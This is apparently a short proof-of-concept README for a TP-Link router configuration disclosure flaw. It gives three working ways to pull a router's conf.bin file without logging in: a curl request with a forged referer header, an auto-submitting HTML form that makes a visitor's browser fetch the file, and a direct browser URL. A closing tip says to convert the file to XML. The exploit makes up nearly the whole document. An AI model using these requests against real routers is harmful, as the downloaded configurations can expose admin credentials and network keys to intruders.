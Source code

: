 # TP_Link Configuration Disclosure

## 1. using curl
```
curl http://192.168.0.1/cgi/conf.bin -H 'referer: http://192.168.0.1' > conf.bin`
```
## 2. using html:
```
<form id="autosubmit" action="http://192.168.0.1/cgi/conf.bin" method="GET">
   <input type="hidden" name="referer" value="http://192.168.0.1">
   <input type="submit" value="Submit Request" />
</form>

<script>
 document.getElementById("autosubmit").submit();
</script>
```

## 3. Using Browser:
```
http://192.168.0.1/cgi/conf.bin?referer=http://192.168.0.1
```

## Convert bin to xml.

## NOTE: Not all router has same config path

